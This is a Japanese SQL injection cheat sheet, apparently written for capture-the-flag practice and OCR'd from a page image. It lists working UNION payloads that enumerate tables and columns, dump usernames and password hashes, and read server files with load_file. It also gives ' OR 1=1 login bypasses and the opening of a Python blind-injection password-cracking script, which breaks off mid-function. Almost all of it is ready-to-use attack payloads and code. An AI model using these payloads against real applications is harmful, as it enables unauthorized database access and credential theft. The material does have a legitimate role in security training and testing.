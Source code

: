 # SQL Injection

### テーブル一覧を取得

SQL文の実行後にUNIONで繋げたSQL文を実行する。NULLの数は最初のSQLのカラム数に合わせて適宜変更する。
'UNION SELECT TABLE_NAME,NULL FROM information_schema.tables#

テーブルの中を取得
'UNION SELECT * FROM secretbook#

または
'UNION SELECT id,first_name,last_name,job,delete_flag from users#

列名を取得
'UNION SELECT table_name,column_name,NULL,NULL,NULL FROM information_schema.columns#

ローカルのファイルにアクセス
'union select load_file('/var/ctf/flag.md'),1,2,3,4#

### ユーザ一覧を取得

 ') UNION SELECT 1, name, is_admin, password_hash,4 FROM user --

### お約束のやつ

'OR 1=1 \-\- #MySQLはハイフンの後に半角スペースが必須
' OR 1=1 #
' OR 'a'='a

### 結果として何かしらの文字列を返すようにしたいなら

何も出ないクエリの後ろにunionでselect \[出したい文字列\]をくっつければいい
文字列を作る際にはクォートを使ってもいいが、CHAR(16進)でもいい
その場合はCyberchefでToHexのDelimiterを0x with commmaにする

### 文字コードからの文字の作成
扱いたい文字をCyberchefでToCharCodeのBase10のレシピで調理する。
その結果をchr(結果)という風にする

### ブラインドSQLインジェクションによるパスワード解析
```
#!/usr/bin/env python3
# -*- coding:utf-8 -*-

import os
import requests
import urllib.parse

#環境変数からアクセス先のURLとクッキーを取得する
url = os.environ['SQLI_URL']
cookie = os.environ['SQLI_COOKIE']

#パスワード解析に利用する文字列としてUTF-8で文字列0～9,a～zA～Zと記号を用意する
candidates = [chr(i) for i in range(48, 48+10)] + \
    [chr(i) for i in range(97, 97+26)] + \
    [chr(i) for i in range(65, 65+26)] + \
    ["_","@","$","!","?","&","#"]
#ヘッダにクッキー情報を格納
headers= {'Cookie':'PHPSESSID='+cookie}

#攻撃用関数
def attack(attack_sql):
#URLにパラメータと渡されたsqlインジェクションの構文をURLエンコードしたものをくっつけてattack_urlとして保持
    attack_url = url + '?pw=' + urllib.parse.quote(attack_sql)
```